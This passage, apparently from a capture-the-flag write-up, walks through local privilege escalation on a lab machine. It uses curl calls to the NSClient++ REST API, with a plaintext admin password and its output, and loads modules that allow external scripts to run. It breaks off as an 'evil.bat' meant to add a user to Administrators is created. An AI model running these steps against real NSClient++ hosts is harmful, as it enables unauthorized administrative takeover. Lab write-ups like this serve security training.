Here comes the twist. Even though we couldn't access the Web UI of `NSClient++`, as `Nathan` restricted it based on our `FTP` enumeration, we still had access to the `NSClient++` REST API service. We had to dig into the `NSClient++` REST API [documentation](https://nsclient.org/docs/api/rest/) to find the appropriate API call for exploitation.

First, we ensured that we could access the REST API using the admin password:

```
nadine@SERVMON c:\Program Files\NSClient++>curl -k -i -u admin https://localhost:8443/api/v1/scripts/ext?all=true
Enter host password for user 'admin': ew2x6SsGTxjRwXOT
HTTP/1.1 200
Content-Length: 1361
Set-cookie: token=frAQBc8Wsa1xVPfvJcrgRYwTiizs2trQ; path=/
Set-cookie: uid=admin; path=/

["scripts\\check_60s.bat","scripts\\check_battery.vbs","scripts\\check_files.vbs","scripts\\check_long.bat","scripts\\check_no_rdp.bat","scripts\\check_ok.bat","scripts\\check_ok.sh","scripts\\check_ping.bat","scripts\\check_printer.vbs
","scripts\\check_test.bat","scripts\\check_test.ps1","scripts\\check_test.sh","scripts\\check_test.vbs","scripts\\check_updates.vbs","scripts\\custom\\my_custom_script.bat","scripts\\lua\\check_cpu_ex.lua","scripts\\lua\\default_check_
mk.lua","scripts\\lua\\noperf.lua","scripts\\lua\\test.lua","scripts\\lua\\test_ext_script.lua","scripts\\lua\\test_nrpe.lua","scripts\\powershell.ps1","scripts\\python\\badapp.py","scripts\\python\\docs.py","scripts\\python\\sample\\li
st_all_wmi_objects.py","scripts\\python\\sample.py","scripts\\python\\test.py","scripts\\python\\test_all.py","scripts\\python\\test_eventlog.py","scripts\\python\\test_external_script.py","scripts\\python\\test_log_file.py","scripts\\p
ython\\test_nrpe.py","scripts\\python\\test_nsca.py","scripts\\python\\test_nscp.py","scripts\\python\\test_pb.py","scripts\\python\\test_python.py","scripts\\python\\test_sample.py","scripts\\python\\test_stress.py","scripts\\python\\t
est_w32_file.py","scripts\\python\\test_w32_schetask.py","scripts\\python\\test_w32_system.py","scripts\\python\\test_w32_wmi.py","scripts\\python\\__init__.py","scripts\\test.lua"]
nadine@SERVMON c:\Program Files\NSClient++>
```

Then, we loaded the `CheckExternalScripts` and `Scheduler` modules using the REST API, enabling us to run external scripts:

```
nadine@SERVMON c:\Program Files\NSClient++>curl -s -k -u admin https://localhost:8443/api/v1/modules/CheckExternalScripts/commands/load
Enter host password for user 'admin':
Success load CheckExternalScripts
```

```
nadine@SERVMON c:\Program Files\NSClient++>curl -s -k -u admin https://localhost:8443/api/v1/modules/Scheduler/commands/load
Enter host password for user 'admin':
Success load Scheduler
```

After confirming that the modules were correctly loaded, we created an `evil.bat` file that would add `Nadine` to the `Administrator` group.
